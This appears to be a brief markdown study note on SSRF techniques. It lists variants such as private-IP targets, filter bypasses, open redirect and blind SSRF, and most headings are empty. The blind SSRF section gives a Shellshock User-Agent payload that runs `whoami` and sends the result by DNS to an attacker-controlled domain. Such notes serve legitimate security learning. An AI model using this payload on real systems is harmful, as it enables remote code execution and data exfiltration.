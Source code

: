 ### Localhost as the target url

### Some private (internal) IP address as the target url
See private_ip.py

### SSRF with blacklist-based input filter

### SSRF with whitelist-based input filters

### Open redirection

### Blind SSRF
- e.g. check Referer header, you can try to paste a url of your own server and see if it makes requests to it... 
- try shellshock attack (which allows remote code execution)
    - e.g. if with the User-Agent header: `User-Agent: () { :; }; /usr/bin/nslookup $(whoami).domain-of-the-server-that-you-control`
    And of course change Referer to some internal server e.g.: http://192.168.0.1:8080


